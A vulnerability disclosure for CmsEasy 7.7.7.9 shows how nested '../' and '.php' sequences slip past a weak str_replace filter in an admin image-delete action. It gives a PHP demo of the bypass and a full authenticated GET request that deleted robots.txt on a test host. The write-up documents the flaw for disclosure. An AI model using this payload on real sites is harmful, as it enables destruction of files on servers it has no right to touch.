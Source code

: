 # CmsEasy Directory Traversal Leading to Arbitrary File Deletion Vulnerability

------

**Note: This vulnerability requires backend privileges**

------



# Vendor Information

**Developer:** 四平市九州易通科技有限公司 Siping Jiuzhou Yitong Technology Co., Ltd.

**Product Information:** CmsEasy V7.7.7.9 20240105

**Official Website:** https://www.cmseasy.cn/

**Product Source Code Download Address:** https://ftp.cmseasy.cn/CmsEasy7.x/CmsEasy_7.7.7_UTF-8_20240105.zip



# Trigger Points

**Note: This vulnerability requires backend privileges**

Located in: `lib/admin/file_admin.php` within the function `deleteimg_action`. **Note: In this project, `front::get` is equivalent to `$_GET`.**

**Objective:** To trigger the `if (!unlink($img))` statement.

```php
function deleteimg_action() {
        if (!front::get('dir') || !front::get('imgname'))
            return;
        $img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
        $img = str_replace('.php', '', $img);
        $img = str_replace('#', '', $img);
        $img = str_replace('../', '', $img);
        $img = str_replace('./', '', $img);

        if (!file_exists($img))
            front::flash(lang_admin('picture').lang_admin('nonentity'));
        if (!unlink($img))   // --------触发位置----------------         front::flash(lang_admin('delete').lang_admin('failure').'，'.lang_admin('please_check_permissions'));
        else
            front::flash(lang_admin('picture').lang_admin('ondelete'));
        front::redirect(url::modify('act/listimg/dir/' . front::get('dir')));
    }
```



# Vulnerability Analysis



## Bypassing the Filtering

The function includes protection measures, but its filtering is not strict enough, allowing for bypass.

Note: `config::get('html_prefix')` is a fixed value `cn`, which enables directory traversal via controlling the `dir` parameter.

```php
        $img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
        $img = str_replace('.php', '', $img);
        $img = str_replace('#', '', $img);
        $img = str_replace('../', '', $img);
        $img = str_replace('./', '', $img);
```

**Bypass Methods: Two Approaches**

**Method One:** Use conventional path parsing combined with rewriting

```php
.....///.....///
=>result in
../../
```

**Method Two:** Leverage Windows path parsing characteristics:

```
..\\ or ..\
```

Similarly, if you want to traverse PHP files, you only need to construct `.p.phphp`.

**Code Verification:**

```php
<?php
function check_url($tpl){
   $tpl = str_replace('.php', '', $tpl);
    $tpl = str_replace('#', '', $tpl);
    $tpl = str_replace('../', '', $tpl);
    $tpl = str_replace('./', '', $tpl);
    return $tpl;
}
$str1 = '.p.phphp';
$str2 = '.....///.....///';  

$path1 = check_url($str1);
$path2 = check_url($str2);

echo 'path1:  ' . $path1 . "\n";  // path:  .php
echo 'path2:  ' . $path2 . "\n"; // path1:  ../../
```

## Request Construction

After testing, we can conclude the following:

Request analysis:

```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

- The `case` parameter corresponds to the business logic file located under the `lib/admin` directory (in this example, it is `database_admin.php`).
- The `act` parameter corresponds to the `xxxx_action` function within the file pointed to by `case` (in this example, it is the `backAll_action()` method).
- The `admin_dir` parameter is the backend directory parameter (this vulnerability requires backend privileges).
- The `site` parameter is the default parameter if not configured (it has no impact).

Thus, we can construct the request as follows, where `{xxxx}` represents the injection points for `dir` and `imgname`:

```htt[
http://127.0.0.1:5678/index.php?case=file&act=deleteimg&admin_dir=admin&site=default&dir={xxxx}&imgname={XXXX}
```



## POC Construction and Verification

According to the explanation of the function earlier:

```php
$img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
```

This results in appending `dir` and `imgname` to the directory `/cn/upload/images/`.

![image-20250202183849224](/assest/cmseasy/vul-2-2-1/1.png)

Among them, the directories `202012` and `201908` are fixed template static resources. (According to FoFa testing, most targets have image files under the `202012` directory, for example, the external mapping of the sample image resource is `/images/banner/s1.jpg`).

We attempt to delete `robots.txt` (located in the root directory).

![image-20250202183943448](/assest/cmseasy/vul-2-2-1/2.png)



**Construct Request Message:**

```http
GET /index.php?case=file&act=deleteimg&admin_dir=admin&site=default&dir=202012&imgname=.....///.....///.....///.....///robots.txt HTTP/1.1
Host: 192.168.107.1:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kedh3tpmobjfgci55hvqskpfq6; login_username=admin; login_password=UcaU5eNfvRIM4QKU5SNaASI45RKg6egPvR7A%253DSNhregCK2ab18391e6e61e99aff8e10d05e4ad02
referer: http://192.168.107.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Connection: keep-alive
```

A response of `302` is considered normal.

![image-20250202184035246](/assest/cmseasy/vul-2-2-1/3.png)

Checking the `robots.txt` file, it was found to have been successfully deleted.

![image-20250202184111275](/assest/cmseasy/vul-2-2-1/4.png)

Vulnerability verification successful.







































